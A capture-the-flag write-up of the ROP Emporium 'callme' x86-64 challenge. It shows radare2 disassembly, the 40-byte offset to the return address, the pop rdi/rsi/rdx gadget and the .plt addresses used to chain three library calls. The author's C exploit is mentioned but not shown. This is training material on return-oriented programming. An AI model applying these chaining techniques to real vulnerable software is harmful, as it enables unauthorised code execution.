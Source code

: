 ## Solution

I did the x86-64 version of this challenge which is slightly different than the x86 version. This is beacause of the way parameters are passed into functions. Overall this challenge was completed a lot faster than the previous one. The real challenge is the exploit, which is written in C.

The link to the challenge page is [here](https://ropemporium.com/challenge/callme.html).

The challenge description says to use the .plt to make calls to several functions in the program. These are located above (*callme_one()*, *callme_two()*, *callme_three()*) and are linked at runtime in the .got.plt. These functions are in another library that is included with the challenge. The goal is to call all three functions with the parameters *0xdeadbeefdeadbeef*, *0xcafebabecafebabe*, and *0xd00df00dd00df00d*.

### Initial Recon

running rabin2 -I shows that the binary has NX enabled but has canaries turned off

```sh
arch     x86
baddr    0x400000
binsz    6952
bintype  elf
bits     64
canary   false
class    ELF64
compiler GCC: (Ubuntu 7.5.0-3ubuntu1~18.04) 7.5.0
crypto   false
endian   little
havecode true
intrp    /lib64/ld-linux-x86-64.so.2
laddr    0x0
lang     c
linenum  true
lsyms    true
machine  AMD x86-64 architecture
nx       true
os       linux
pic      false
relocs   true
relro    partial
rpath    .
sanitize false
static   false
stripped false
subsys   linux
va       true
```

### Exploration

After opening the function in r2 I checked the function table

```asm
[0x00400760]> afl
0x00400760    1     42 entry0
0x004006a8    3     23 sym._init
0x004009b4    1      9 sym._fini
0x004007a0    4     37 sym.deregister_tm_clones
0x004007d0    4     55 sym.register_tm_clones
0x00400810    3     29 sym.__do_global_dtors_aux
0x00400840    1      7 sym.frame_dummy
0x00400898    1     90 sym.pwnme
0x00400700    1      6 sym.imp.memset
0x004006d0    1      6 sym.imp.puts
0x004006e0    1      6 sym.imp.printf
0x00400710    1      6 sym.imp.read
0x004008f2    1     74 sym.usefulFunction
0x004006f0    1      6 sym.imp.callme_three
0x00400740    1      6 sym.imp.callme_two
0x00400720    1      6 sym.imp.callme_one
0x00400750    1      6 sym.imp.exit
0x004009b0    1      2 sym.__libc_csu_fini
0x00400940    4    101 sym.__libc_csu_init
0x00400790    1      2 sym._dl_relocate_static_pie
0x00400847    1     81 main
0x00400730    1      6 sym.imp.setvbuf
```

The same functions have returned again(*pwnme()*, *usefulFunction()*). Taking a look we can see that *pwnme()* is sort of the same as last time.

```asm
┌ sym.pwnme ();
│           ; var void *buf @ rbp-0x20
│           0x00400898      55             push rbp
│           0x00400899      4889e5         mov rbp, rsp
│           0x0040089c      4883ec20       sub rsp, 0x20
│           0x004008a0      488d45e0       lea rax, [buf]
│           0x004008a4      ba20000000     mov edx, 0x20               ; 32 ; size_t n
│           0x004008a9      be00000000     mov esi, 0                  ; int c
│           0x004008ae      4889c7         mov rdi, rax                ; void *s
│           0x004008b1      e84afeffff     call sym.imp.memset         ; void *memset(void *s, int c, size_t n)
│           0x004008b6      bff0094000     mov edi, str.Hope_you_read_the_instructions..._n ; 0x4009f0 ; "Hope you read the instructions...\n" ; const char *s
│           0x004008bb      e810feffff     call sym.imp.puts           ; int puts(const char *s)
│           0x004008c0      bf130a4000     mov edi, 0x400a13           ; '\x13\n@' ; "> " ; const char *format
│           0x004008c5      b800000000     mov eax, 0
│           0x004008ca      e811feffff     call sym.imp.printf         ; int printf(const char *format)
│           0x004008cf      488d45e0       lea rax, [buf]
│           0x004008d3      ba00020000     mov edx, 0x200              ; 512 ; size_t nbyte
│           0x004008d8      4889c6         mov rsi, rax                ; void *buf
│           0x004008db      bf00000000     mov edi, 0                  ; int fildes
│           0x004008e0      e82bfeffff     call sym.imp.read           ; ssize_t read(int fildes, void *buf, size_t nbyte)
│           0x004008e5      bf160a4000     mov edi, str.Thank_you_     ; 0x400a16 ; "Thank you!" ; const char *s
│           0x004008ea      e8e1fdffff     call sym.imp.puts           ; int puts(const char *s)
│           0x004008ef      90             nop
│           0x004008f0      c9             leave
└           0x004008f1      c3             ret

```

In this function you have a buffer of 32 bytes being filled with 512 bytes from the read function.

taking a look at the *usefulFunction()* shows that the functions are being called differetly this time.

```asm
┌ sym.usefulFunction ();
│           0x004008f2      55             push rbp
│           0x004008f3      4889e5         mov rbp, rsp
│           0x004008f6      ba06000000     mov edx, 6
│           0x004008fb      be05000000     mov esi, 5
│           0x00400900      bf04000000     mov edi, 4
│           0x00400905      e8e6fdffff     call sym.imp.callme_three
│           0x0040090a      ba06000000     mov edx, 6
│           0x0040090f      be05000000     mov esi, 5
│           0x00400914      bf04000000     mov edi, 4
│           0x00400919      e822feffff     call sym.imp.callme_two
│           0x0040091e      ba06000000     mov edx, 6
│           0x00400923      be05000000     mov esi, 5
│           0x00400928      bf04000000     mov edi, 4
│           0x0040092d      e8eefdffff     call sym.imp.callme_one
│           0x00400932      bf01000000     mov edi, 1                  ; int status
└           0x00400937      e814feffff     call sym.imp.exit           ; void exit(int status)
```

### Generating the Exploit

The offset to ret is 40 once again. This challenge is simular to the *split* challenge in that you need a gadget to load the paramters into the correct registers. This time there are three, so we need to fill rdi, rsi, rdx.

Running the command below shows us the gadget and address we need to build part of the ROP chain.

> /R pop rdi

```asm
0x0040093c                 5f  pop rdi
0x0040093d                 5e  pop rsi
0x0040093e                 5a  pop rdx
0x0040093f                 c3  ret
```

We also need the addresses for the three callme functions. This is a little different than previous times since the functions are not in the binary itself. When I ran the *afl* command earlier It actually showed the correct address frfrom the .plt section of the binary that we need to properly call it. Just to check and prove that they are the correct we can check the plt.

> plt (Procedure Linkage Table) is used to call external functions whose address isn't known at the time of linking, and needs to be resolved by the dynamic linker at run time.

In this challenge we need to use the address in the .plt section instead of the call in *usefulFunction()*. This is because the functions are externeal to the binary.

This is the plt section for the three functions

```asm
  ╎╎╎╎╎╎╎   ; CALL XREF from sym.usefulFunction @ 0x400905(x)
┌ 6: sym.imp.callme_three ();
└ ╎╎╎╎╎╎╎   0x004006f0      ff2532092000   jmp qword [reloc.callme_three] ; [0x601028:8]=0x4006f6
  ╎╎╎╎╎╎╎   0x004006f6      6802000000     push 2                      ; 2
  └───────< 0x004006fb      e9c0ffffff     jmp sym..plt
            ; CALL XREF from sym.usefulFunction @ 0x40092d(x)
┌ 6: sym.imp.callme_one ();
└    ╎╎╎╎   0x00400720      ff251a092000   jmp qword [reloc.callme_one] ; [0x601040:8]=0x400726 ; "&\a@"
     ╎╎╎╎   0x00400726      6805000000     push 5                      ; 5
     └────< 0x0040072b      e990ffffff     jmp sym..plt
       ╎╎   ; CALL XREF from sym.usefulFunction @ 0x400919(x)
┌ 6: sym.imp.callme_two ();
└      ╎╎   0x00400740      ff250a092000   jmp qword [reloc.callme_two] ; [0x601050:8]=0x400746 ; "F\a@"
       ╎╎   0x00400746      6807000000     push 7                      ; 7
       └──< 0x0040074b      e970ffffff     jmp sym..plt
```

The addresses that we need are the first jumps in each section(*0x00400720*, *0x00400740*, *0x004006f0*).

### Building the Exploit

our exploit will look something like this,

```sh
40 junk padding + gadget + args + callme_one + gadget + args + callme_two + gadget + args + callme_three
```

I wrote the exploit in C and is included with comments describing it better in the source code.

### Flag
After building and running the exploit we get the flag,

```sh
❯ make
gcc ./exploit.c -o exp
./exp
callme by ROP Emporium
x86_64

Hope you read the instructions...

> Thank you!
callme_one() called correctly
callme_two() called correctly
ROPE{a_placeholder_32byte_flag!}
```
